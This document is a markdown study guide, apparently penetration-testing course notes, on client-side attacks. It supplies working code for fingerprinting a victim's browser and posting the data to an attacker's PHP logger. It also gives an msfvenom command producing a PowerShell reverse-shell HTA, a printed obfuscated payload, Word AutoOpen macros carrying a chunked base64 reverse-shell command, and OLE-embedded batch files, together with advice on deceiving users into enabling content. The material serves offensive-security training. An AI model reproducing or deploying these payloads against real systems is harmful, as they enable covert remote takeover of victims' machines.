<div align='center'>

# **Client-Side Attacks**

</div>

Client-side attack vectors are especially insidious as they exploit weaknesses in client software,
such as a browser. This often involves some form of
user interaction and deception in order for the client software to execute malicious code

## **Table of Contents** 

- [**1. Know Your Target**](#1-know-your-target)
    - [**1.1. Passive Client Information Gathering**](#11-passive-client-information-gathering)
    - [**1.2. Active Client Information Gathering**](#12-active-client-information-gathering)
    - [**1.3. Social Engineering and Client-Side Attacks**](#13-social-engineering-and-client-side-attacks)
    - [**1.4. Client Fingerprinting**](#14-client-fingerprinting)
- [**2. Leveraging HTML Applications**](#2-leveraging-html-applications)
    - [**2.1. Exploring HTML Applications**](#21-exploring-html-applications)
    - [**2.2. HTA Attack in Action**](#22-hta-attack-in-action)
- [**3. Exploiting Microsoft Office**](#3-exploiting-microsoft-office)
    - [**3.1. Microsoft Word Macro**](#31-microsoft-word-macro)
    - [**3.2. Object Linking and Embedding**](#32-object-linking-and-embedding)
    - [**3.3. Evading Protected View**](#33-evading-protected-view)


## **1. Know Your Target**

### **1.1. Passive Client Information Gathering**

When leveraging passive information gathering techniques, we do not directly interact with our intended targets.

### **1.2. Active Client Information Gathering**

Active client information gathering techniques make direct contact with the target machine or its users

This could involve placing a phone call to a user in an attempt to extract useful information or sending a targeted email to the victim hoping for a click on a link that will enumerate the target's operating system version, browser version, and installed extensions.

### **1.3. Social Engineering and Client-Side Attacks**

Social engineering is the art of manipulating people into performing actions or divulging confidential information. It is a type of confidence trick for the purpose of information gathering, fraud, or system access.

### **1.4. Client Fingerprinting**

Let’s assume we have convinced our victim to visit our malicious web page in a practical example. Our goal will be to identify the victim’s web browser version and information about the underlying operating system.

We will use the [fingerprintjs2](https://cdn.jsdelivr.net/npm/@fingerprintjs/fingerprintjs@2/dist/fingerprint2.min.js) library

Create an index.html file under the `fp` directory which include the `fingerprintjs2.js` library with the following code:

```html
<!doctype html>
<html>
<head>
    <title>Fingerprintjs2 test</title>
</head>
<body>
    <h1>Fingerprintjs2</h1>
    <p>Your browser fingerprint: <strong id="fp"></strong></p>
    <p><code id="time"/></p>
    <p><span id="details"/></p>
    <script src="https://cdn.jsdelivr.net/npm/@fingerprintjs/fingerprintjs@2/dist/fingerprint2.min.js"></script>
    <script>
        var d1 = new Date();
        var options = {};
        Fingerprint2.get(options, function (components) {
            var values = components.map(function (component) { return component.value })
            var murmur = Fingerprint2.x64hash128(values.join(''), 31)
            var d2 = new Date();
            var timeString = "Time to calculate the fingerprint: " + (d2 - d1) + "ms";
            var details = "<strong>Detailed information: </strong><br />";
            if(typeof window.console !== "undefined") {
                for (var index in components) {
                    var obj = components[index];
                    var value = obj.value;
                    if (value !== null) {
                        var line = obj.key + " = " + value.toString().substr(0, 150);
                        details += line + "<br />";
                    }
                }
            }
            document.querySelector("#details").innerHTML = details
            document.querySelector("#fp").textContent = murmur
            document.querySelector("#time").textContent = timeString
        });       
    </script>
</body>
</html>
```

The JavaScript code invokes the `Fingerprint2.get` static function to start the fingerprinting process. The `components` variable returned by the library is an array containing all the information extracted from the client. The values stored in the `components` array are passed to the `murmur` hash function in order to create a hash fingerprint of the browser. Finally, the same values are extracted and displayed in the HTML page



We get User Agent string, its localization, the installed browser plugins and relative version, generic information regarding the underlying Win32 operating system platform, and other details

Submit the User Agent string to an [online user agent database](https://explore.whatismybrowser.com/useragents/parse/) to identify the browser version and operating system




**Transfer the extracted information to attacking web server**

We use the `XMLHttpRequest` JavaScript API to interact with the attacking web server via a POST request

The result output string is sent to `js.php` via a POST request

Here is the `fingerprint2server.html` file that will be used to send the POST request:

```html
<!doctype html>
<html>
<head>
    <title>Blank Page</title>
</head>
<body>
    <h1>You have been given the finger!</h1>
    <script src="https://cdn.jsdelivr.net/npm/@fingerprintjs/fingerprintjs@2/dist/fingerprint2.min.js"></script>
    <script>
        var d1 = new Date();
        var options = {};
        Fingerprint2.get(options, function (components) {
            var values = components.map(function (component) { return component.value })
            var murmur = Fingerprint2.x64hash128(values.join(''), 31)
            var clientfp = "Client browser fingerprint: " + murmur + "\n\n";
            var d2 = new Date();
            var timeString = "Time to calculate fingerprint: " + (d2 - d1) + "ms\n\n";
            var details = "Detailed information: \n";
            if(typeof window.console !== "undefined") {
                for (var index in components) {
                var obj = components[index];
                var value = obj.value;
                if (value !== null) {
                    var line = obj.key + " = " + value.toString().substr(0, 150);
                    details += line + "\n";
                    }
                }
            }
            var xmlhttp = new XMLHttpRequest();
            xmlhttp.open("POST", "/fp/js.php");
            xmlhttp.setRequestHeader("Content-Type", "application/txt");
            xmlhttp.send(clientfp + timeString + details);
        });
    </script>
</body>
</html>
```

Here is the `js.php` script that will processes the POST request:

```php
<?php
$data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
$data .= file_get_contents('php://input');
$data .= "---------------------------------\n\n";
file_put_contents('/var/www/html/fp/fingerprint.txt', print_r($data, true),
FILE_APPEND | LOCK_EX);
?>
```

The PHP code first extracts the client IP address from the `$_SERVER` array. Then the IP address is concatenated to the text string received from the JavaScript POST request and written to the `fingerprint.txt` file

If the victim visits the `fingerprint2server.html` page, the `fingerprint.txt` file will be created





## **2. Leveraging HTML Applications**

If a file is created with the extension of `.hta` instead of `.html`, Internet Explorer will automatically interpret it as a HTML Application and offer the ability to execute it using the mshta.exe program

The purpose of HTML Applications is to allow arbitrary execution of applications directly from Internet Explorer, rather than downloading and manually running an executable

This attack vector only works against Internet Explorer and to some extent Microsoft Edge

### **2.1. Exploring HTML Applications**

Simple proof-of-concept HTML Application: poc.hta

```html
<html>
<body>
<script>
    var c= 'cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```

The 'ActiveXObject' is a JavaScript object that allows us to create and interact with COM objects. The 'WScript.Shell' object is a COM object that allows us to interact with the Windows shell. The 'Run' method of the 'WScript.Shell' object allows us to execute a command on the target system.

When a user opens the `poc.hta` file in Internet Explorer, he/she will be presented with the popup dialog



Selecting 'Open' will promt an additional dialog



When the user clicks 'Allow', the `cmd.exe` is launched



While mshta.exe is executing, it keeps an additional window open behind our command prompt. To avoid this, we can update our proof-of-concept to close this window with the `.close();` object method:

```html
<html>
<head>
<script>
    var c= 'cmd.exe'
    new ActiveXObject('WScript.Shell').Run(c);
</script>
</head>
<body>
<script>
    self.close();
</script>
</body>
```

### **2.2. HTA Attack in Action**

Use `msfvenom` to create a malicious HTA file that will execute a reverse shell on the target system: evil.hta

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.190.133 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta 
```

The `-f` option specifies the output format. The `hta-psh` format will create a HTA file that will execute a PowerShell reverse shell



Analyzing the `evil.hta` file:

```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set a4_t_ryh5H_6 = CreateObject("Wscript.Shell")
  Set nmu = CreateObject("Scripting.FileSystemObject")
  For each path in Split(a4_t_ryh5H_6.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If nmu.FileExists(path + "\..\powershell.exe") Then
      a4_t_ryh5H_6.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQ...",0
      Exit For
    End If
  Next
  window.close()
</script>
```

- The variable names have been randomized in order to trick detection and antivirus software
- The PowerShell is executed by the Run method of the Windows Scripting Host along with three command line arguments
    - `-nop` prevents PowerShell from loading its profile. When PowerShell is started, it will, by default, load any existing user's profile scripts, which might negatively impact the execution of our code
    - `-w hidden` is to avoid creating a window on the user’s desktop
    - `-e` is used to specify that the following argument is a base64-encoded PowerShell script

Set up a listener on the attacking machine:

```bash
nc -nlvp 4444
```



From the victim machine, open the `evil.hta` file in Internet Explorer, accepting the two security warnings, we get a reverse shell



## **3. Exploiting Microsoft Office**

### **3.1. Microsoft Word Macro**

Macros are a series of commands and instructions that can be grouped together as a single command to accomplish a task automatically. Organizations often use macros to manage dynamic content and link documents with external content

Macros can be written from scratch in Visual Basic for Applications (VBA), which is a fully functional scripting language with full access to `ActiveX` objects and the Windows Script Host

**Creating a Microsoft Word macro**

Choose the VIEW ribbon and selecting Macros



The main procedure used in our VBA macro begins with the keyword Sub and ends with End Sub. This essentially marks the body of the macro



To invoke the Windows Scripting Host through `ActiveX`, we can use the `CreateObject` function along with the `Wscript.Shell` `Run` method

```js
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    CreateObject("Wscript.Shell").Run "cmd"
End Sub
```

The `AutoOpen()` procedure is executed when the document is opened. The `Document_Open()` procedure is executed when an already-open document is reopened. Both of these procedures can call our custom procedure and therefore run our code

Save the document as a macro-enabled document with the `.docm` or `.doc` extension

When we reopen the document containing our macro, we will be presented with a security warning indicating that macros have been disabled



Click Enable Content to run the macro, the `cmd.exe` window will be opened



However, if the user does not click Enable Content, the attack will fail. Therefore, the user must be unaware of the potential consequences or be sufficiently encouraged by the presentation of the document to click this button

Make the reverse shell macro using base64-encoded PowerShell script in the previous section: `powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewAkAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnAH0AZQBsAHMAZQB7ACQAYgA9ACQAZQ...`

Use a simple Python [script](./Scripts/Chapter13/split_cmd.py) to split the base64-encoded PowerShell script into chunks of 50 characters



Having split the Base64 encoded string into smaller chunks, we will update the macro to include the chunks of the PowerShell script that create a reverse shell

```js
Sub AutoOpen()
    MyMacro
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub MyMacro()
    Dim Cmd As String
    Cmd = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
    Cmd = Cmd + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"
    Cmd = Cmd + "kAGIAPQAnAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQAnA"
    Cmd = Cmd + "H0AZQBsAHMAZQB7ACQAYgA9ACQAZQBuAHYAOgB3AGkAbgBkAGk"
    Cmd = Cmd + "AcgArACcAXABzAHkAcwB3AG8AdwA2ADQAXABXAGkAbgBkAG8Ad"
    Cmd = Cmd + "wBzAFAAbwB3AGUAcgBTAGgAZQBsAGwAXAB2ADEALgAwAFwAcAB"
    Cmd = Cmd + "vAHcAZQByAHMAaABlAGwAbAAuAGUAeABlACcAfQA7ACQAcwA9A"
    Cmd = Cmd + "E4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAEQ"
    Cmd = Cmd + "AaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHMAU"
    Cmd = Cmd + "wB0AGEAcgB0AEkAbgBmAG8AOwAkAHMALgBGAGkAbABlAE4AYQB"
    Cmd = Cmd + "tAGUAPQAkAGIAOwAkAHMALgBBAHIAZwB1AG0AZQBuAHQAcwA9A"
    ...
    Cmd = Cmd + "CcAJwA4AFYAYwBQAE4AcABUAGQAYwBlADgANQBvAGMAagBMAGU"
    Cmd = Cmd + "AWAB1ADMAdQB7ADEAfQBrAHcAeABxACcAJwArACcAJwAxAFgAc"
    Cmd = Cmd + "gBFADAAUgA3AGIAcABLAFEASAB6AGMAVwBwAGIAMABaAHAAQwB"
    Cmd = Cmd + "YAHgANAA0AGYAUwB2AGoARQAyAG4AawBUADgAcgBZAHEAdgBvA"
    Cmd = Cmd + "QBhAHQAZQBOAG8AVwBpAG4AZABvAHcAPQAkAHQAcgB1AGUAOwA"
    Cmd = Cmd + "kAHAAPQBbAFMAeQBzAHQAZQBtAC4ARABpAGEAZwBuAG8AcwB0A"
    Cmd = Cmd + "GkAYwBzAC4AUAByAG8AYwBlAHMAcwBdADoAOgBTAHQAYQByAHQ"
    Cmd = Cmd + "AKAAkAHMAKQA7AA=="
    CreateObject("Wscript.Shell").Run Cmd
End Sub
```

Fully updated macro: [macro.vba](./Scripts/Chapter13/macro.vba)

Firstly, we will declare a variable `Cmd` of type `String` containing the PowerShell command we wish to execute

Since VBA has a 255-character limit for literal strings, we have to split the command into multiple lines and concatenate them using a simple Python script because this restriction does not apply to strings stored in variables

Set up a listener on the attacking machine:



Saving the Word document, closing it, and reopening it will automatically execute the macro and create a reverse shell



### **3.2. Object Linking and Embedding**

Another popular client-side attack against Microsoft Office abuses Dynamic Data Exchange (DDE) to execute arbitrary applications from within Office documents

**Embed a Windows batch file inside a Microsoft Word document**

- Create a batch file that will open cmd.exe: Launch.bat

```cmd
START cmd.exe
```

- Open Microsoft Word, create a new document, navigate to the `Insert` ribbon, and click the `Object` menu. Here, we will choose the `Create from File` tab and select our newly-created batch script, launch.bat. Change the appearance of the batch file within the Word document to make it look more legitimate



We get the embedded batch file



When double-clicking the batch file, the `cmd.exe` window will be opened (if accepted the security warning)



Turn the batch file into a reverse shell

The script file: [reverse.bat](./Scripts/Chapter13/reverse.bat)

Set up a listener on the attacking machine:



Embed the reverse shell batch file into a Microsoft Word document and double-click it to get a reverse shell

